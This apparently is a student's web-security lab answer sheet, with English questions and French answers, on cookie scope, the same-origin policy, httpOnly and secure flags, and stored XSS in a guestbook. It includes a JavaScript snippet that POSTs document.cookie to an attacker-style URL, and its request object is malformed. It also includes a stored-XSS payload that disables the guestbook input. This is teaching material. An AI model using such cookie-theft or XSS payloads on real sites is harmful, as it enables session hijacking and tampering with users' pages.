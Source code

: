 **Let the gadget delete the cookie via JavaScript **

```js
// cookieModifier.js
// delete the cookie
document.cookie = ""
```

**Can the second service delete the cookie of the first? Justify why.**

Oui, car les scripts sont herbergés sur le même serveur, ils ont donc le même nom de domaine. Le navigateur isole les cookies en fonction de leur nom de domaine. Ainsi les deux scripts partagent les même cookies.

**let the gadget send the cookie to another server (you can use a different port to simulate this)**

```js
urlAttackerServer = "https://other-domain.com/"
const request = { 
	method: 'POST', 
	headers: { 'Content-Type': 'application/json', 
	body: JSON.stringify(document.cookie) 
};

// envoie d'une requete POST contenant le secret au serveur de l'attaquant
fetch(urlAttackerServer, request);
```

**Does the previous item work if the gadget is inside a frame? **

Non, car les iframes doivent respecter le SOP (Same Origin Policy) et le serveur "other-domain" ne constitue pas la même origine.

**and if gadget is inside a script and the cookie is initially set as httponly? **

Si le cookie est configuré en httpOnly, il n'est pas possible d'y accéder depuis le code javascript du client.

**and if gadget is in script and the cookie is initially set as secure? Justify all your answers.**

L'option secure du cookie permet de garantir que le cookie n'est envoyé par le serveur que sur des connexions chiffrés (HTTPS). Cela n'influe en rien l'accès au cookie au niveau du client.

**Question 5 : (File: guestbook.php, guestbookleavemessage.php. You must create file message.txt.) Use the application: to which kind of vulnerability suffers the application? Demonstrate with an attack that disables the input element of the guestbook. Mention 2 ways in which this attack could be prevented and implement them in 2 versions of guestbook: guestbookA.php and guestbookB.php.**

Je l'ai déjà fait dans le TP2.  
L'applications souffre d'une stored XSS (Cross-Site Scripting).

Attaque pour désactiver l'input élément de l'applciation :

Entrer dans l'input la valeur suivante afin qu'elle soit stocké côté serveur.

```html
<script>document.getElementById("message").disabled = true;</script>
```
